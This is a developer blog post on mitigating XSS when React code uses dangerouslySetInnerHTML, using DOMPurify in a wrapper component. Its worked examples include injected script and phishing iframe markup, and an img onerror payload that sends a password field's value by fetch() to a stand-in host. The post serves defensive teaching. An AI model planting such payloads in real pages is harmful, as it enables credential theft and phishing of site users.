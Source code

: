 ```yaml
---
title: Mitigate XSS exploits when using React's dangerouslySetInnerHTML
description: With the great power of dangerouslySetInnerHTML, comes great responsibility
posted: "2022-08-13"
image: /assets/images/posts/lautaro-andreani-xkBaqlcqeb4-unsplash.jpg
credit:
  [
    Lautaro Andreani,
    https://unsplash.com/@lautaroandreani?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText,
  ]
status: published
---
```


**TL: DR;** Blinding dumping content into `dangerouslySetInnerHTML` is exactly that - dangerous. Make sure you are sanitising any input you pass to dangerouslySetInnerHTML unless you have explicit control of the input.

The following component serves as a simple example of mitigating the risk of an XSS attack via dangerouslySetInnerHTML:

```jsx title="DangerousHtml.jsx"
//https://github.com/cure53/DOMPurify
import React from "react";
import DOMPurify from "dompurify";

const sanitize = (dirty) => DOMPurify.sanitize(dirty);

const DangerousHtml = ({ innerHTML, tag }) => {
  const clean = sanitize(innerHTML);

  if (typeof tag === "undefined") {
    return <div dangerouslySetInnerHTML={{ __html: clean }} />;
  }
  return <tag dangerouslySetInnerHTML={{ __html: clean }} />;
};

export default DangerousHtml;
```

By using our bespoke `DangerousHtml` component, we can dramatically reduce the risk of an XSS exploit as we're sanitising our input before it gets to the actual `dangerouslySetInnerHTML` prop

`DOMPurify` is highly configurable too, so it might be the case that you want to have multiple components like our example to handle specific use cases or allow some of the below examples explicitly.

Below are some brief examples of how the exploits could take place:

## Exploiting iFrame and Script Tags

XSS is possible as React will not strip out the script tag which points to a malicious payload.

We really shouldn't be passing iFrames in this way either. Rather, we should pass the URL and any other "safe" attributes as a props and render it ourselves in an iFrame tag to retain control of it's rendering ability's and source, or have a dedicated iFrame component.

For example, consider rhe following malicious markup that we've received from an API request. If we blindly set it via _dangerouslySetInnerHTML_, we'll give the user this output:

```jsx
// Bad markup going in
<div
  dangerouslySetInnerHTML={{
    __html: `<p>
  Hi
  <script src="https://example.com/malicious-tracking"></script>
  Fiona, here is the link to enter your bank details:
  <iframe src="https://example.com/defo-not-the-actual-bank"></iframe>
</p>`,
  }}
/>
```

```html
<!-- Bad markup rendered on the DOM -->
<div>
  <p>
    Hi
    <script src="https://example.com/malicious-tracking"></script>
    Fiona, here is the link to enter your bank details:
    <iframe src="https://example.com/defo-not-the-actual-bank"></iframe>
  </p>
</div>
```

However, using our DangerousHTML component instead, means that we have mitigated most of the risk the user may have faced:

```jsx
// Bad markup going in
<DangerousHtml
  innerHTML={`<p>
  Hi
  <script src="https://example.com/malicious-tracking"></script>
  Fiona, here is the link to enter your bank details:
  <iframe src="https://example.com/defo-not-the-actual-bank"></iframe>
</p>`}
/>
```

```html
<!-- Clean markup rendered on the DOM -->
<div>
  <p>Hi Fiona, here is the link to enter your bank details:</p>
</div>
```

Fiona may think that the website is broken or missing content for some reason - but this is still better than being phished for their bank details!

## Attribute manipulation/poisoning

Some DOM elements have special attributes that we can abuse that we should protect ourselves against.

In this example, we can run some JS on an `<image>` tag's `onerror`.

For example, given the following:

```jsx
// Bad markup going in
<div
  dangerouslySetInnerHTML={{
    __html: `
<p>
  Hola
  <img
    src='none.png'
    onerror='fetch("https://example.com/malicious-tracking?password=" + document.querySelector("input#password").value);'
  />
  Sharon
</p>`,
  }}
/>
```

```html
<!-- Bad markup rendered on the DOM -->
<div>
  <p>
    Hola
    <img
      src="none.png"
      onerror='fetch("https://example.com/malicious-tracking?password=" + document.querySelector("input#password").value);'
    />
    Sharon
  </p>
</div>
```

In this instance, our poisoned markup is stealing data from the DOM when the image request eventually fails and the user will never even know.

We can mitigate this again with our DangerousHtml component

```jsx
// Bad markup going in
<DangerousHtml
  innerHTML={`
<p>
  Hola
  <img
    src='none.png'
    onerror='fetch("https://example.com/malicious-tracking?password=" + document.querySelector("input#password").value);'
  />
  Sharon
</p>`}
/>
```

```html
<!-- Clean markup rendered on the DOM -->
<div>
  <p>
    Hola
    <img src="none.png" />
    Sharon
  </p>
</div>
```

Given the argument that we may genuinely want to execute some JS to show a fallback image, we should again not be trusting raw, unsanitized HTML to do this for us and would be better served either having a `fallbackImageURL` or `onError` prop that we can explicitly add to our image tag like so:

```jsx
// Usual imports
const MyImageComponent = ({ fallbackUrl, url }) => {
  // Usual component setup

  const displayFallbackImage = (evt) => {
    // If there is no fallback, do nothing
    if (!fallbackUrl) return;

    // set the url to the fallbackUrl
    evt.target.src = fallbackUrl;
  };

  return (
    <img
      src={url}
      onerror={displayFallbackImage}
      // ... any other props
    />
  );
};
```
